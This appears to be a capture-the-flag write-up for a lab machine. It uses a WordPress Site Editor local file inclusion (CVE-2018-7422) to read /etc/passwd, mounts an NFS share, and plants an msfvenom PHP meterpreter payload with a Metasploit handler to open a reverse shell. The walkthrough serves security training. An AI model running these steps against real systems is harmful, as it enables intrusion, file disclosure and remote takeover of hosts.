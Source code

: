 ```shell
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9044
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.10/wordpress/wp-content/plugins/site-editor/readme.txt
```
`searchsploit wordpress site editor`
![](https://i.imgur.com/QUKwlWZ.png)

```
Product: Site Editor Wordpress Plugin - https://wordpress.org/plugins/site-edit
or/
Vendor: Site Editor
Tested version: 1.1.1
CVE ID: CVE-2018-7422

** CVE description **
A Local File Inclusion vulnerability in the Site 
Editor plugin through 1.1.1 for WordPress allows 
remote attackers to retrieve arbitrary files via 
the ajax_path parameter to 
editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php.
```

http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

![](https://i.imgur.com/Vmu0I6X.png)
We set network back to `ifconfig eth0 10.10.10.12 netmask 255.255.255.0`
`mkdir /tmp/dpwwn02`
`mount -t nfs 10.10.10.10:/home/dpwwn02 /tmp/dpwwn02`
`cd /tmp/dpwwn02`
`msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.12 LPORT=8888 R > dpwwn02shell.php`
Remove the "/*" in the payload begining, or the shell might not work property, like this:
![](https://i.imgur.com/20BSKoa.png)
So, fix the stager.
![](https://i.imgur.com/UTdqq2k.png)

```
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 10.10.10.12
set lport 8888
run
```
